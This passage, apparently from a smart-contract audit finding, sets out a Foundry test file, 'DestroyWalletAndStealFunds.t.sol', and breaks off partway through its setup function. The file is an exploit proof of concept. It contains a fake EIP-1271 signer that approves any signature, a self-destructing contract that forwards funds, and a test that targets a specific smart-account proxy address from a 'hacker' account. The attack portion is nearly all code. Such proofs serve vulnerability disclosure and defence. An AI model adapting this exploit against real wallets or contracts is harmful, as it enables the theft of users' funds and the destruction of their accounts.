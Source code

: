 Create the following file in `test/DestroyWalletAndStealFunds.t.sol`:

    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.13;
    
    import "forge-std/Test.sol";
    
    contract Enum {
        enum Operation {Call, DelegateCall}
    }
    interface SmartAccount {
        function execTransaction(
            Transaction memory _tx,
            uint256 batchId,
            FeeRefund memory refundInfo,
            bytes memory signatures
        ) external payable returns (bool success); 
        function getNonce(uint256 batchId) external view returns (uint256);
    }
    struct Transaction {
            address to;
            uint256 value;
            bytes data;
            Enum.Operation operation;
            uint256 targetTxGas;
        }
    struct FeeRefund {
            uint256 baseGas;
            uint256 gasPrice; //gasPrice or tokenGasPrice
            uint256 tokenGasPriceFactor;
            address gasToken;
            address payable refundReceiver;
        }
    contract FakeSigner {
        bytes4 internal constant EIP1271_MAGIC_VALUE = 0x20c13b0b;
    
        // Always return valid EIP1271_MAGIC_VALUE
        function isValidSignature(bytes memory data, bytes memory contractSignature) external returns (bytes4) {
            return EIP1271_MAGIC_VALUE;
        }
    }
    contract SelfDestructingContract {
        // All this does is self destruct and send funds to "to"
        function selfDestruct(address to) external {
            selfdestruct(payable(to));
        }
    }
    
    contract DestroyWalletAndStealFunds is Test {
        SmartAccount proxySmartAccount = SmartAccount(0x11dc228AB5BA253Acb58245E10ff129a6f281b09);
        address hacker = vm.addr(0x1337);
        SelfDestructingContract sdc;
        FakeSigner fs;
        function setUp() public {
            // Create self destruct contract
            sdc = new SelfDestructingContract();
            // Create fake signer
            fs = new FakeSigner();
    